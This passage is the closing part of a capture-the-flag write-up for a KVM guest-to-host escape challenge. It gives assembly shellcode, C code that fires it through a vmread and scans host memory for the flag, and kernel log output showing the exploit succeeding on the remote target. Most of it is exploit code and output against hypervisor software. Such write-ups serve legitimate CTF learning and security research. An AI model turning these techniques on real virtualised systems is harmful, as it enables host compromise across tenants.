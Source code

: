 ```c
    // writeable kernel address
    mov r9, r12
    add r9, 0x18ab000

    mov rdi, r10
    mov rsi, r9
    mov rdx, 0x100
    mov rcx, 0

    call r11

    pop rax
    pop rax

    pop rsi
    pop rdi
    pop r13
    pop r14
    pop r12
    pop r11
    pop r10
    pop r9
    pop rdx
    pop rcx
    pop rbx
    pop rax
```

Then just trigger the shellcode by executing a vmread, and get the flag by reading it out of the host's memory:

```c
    // do it
    read_guy(0);

    // scan for flag in memory
    for (i = 0; i < 1024ull << 20; i+= 0x1000) {
        if (!memcmp(0xffff880000000000 + i, "corctf{", 7)) {
            pr_info("flag: %s\n", 0xffff880000000000 + i);
            break;
        }
    }
```

Incredibly this worked first try on remote! :)

```
[  127.014896] [exp]: Found vmcs in l1 at offset 730021; value: 2adb000
[  127.014958] [exp]: YOU ARE HERE: ffff9aa4c1f6a000
[  127.014959] [exp]: probably physbase: ffff9aa4c0000000
[  127.014985] [exp]: eptp_value: 244f05e
[  127.014986] [exp]: ept_addr: ffff9aa4c244f000
[  127.014986] [exp]: ept_offset: 9ca00
[  127.015012] [exp]: pml4e_value: 2ba4907
[  127.015013] [exp]: pml4e_addr: ffff9aa4c2ba4000
[  127.015013] [exp]: pml4e_offset: 187400
[  127.015036] [exp]: pgd: ffff8c6102a80000
[  127.016681] clocksource: Long readout interval, skipping watchdog check: cs_nsec: 5383022626 wd_nsec: 5383019837
[  127.016772] TEST: f000ff53f000ff53
[  127.018707] found handle_vmread page at: ffff8800028fd000
[  127.018708] handle_vmread at: ffff8800028fd4d0
[  127.053129] flag: corctf{KvM_3xpl01t5_@r3_5ucH_a_p@1n_1n_Th3_a55!!!}
```
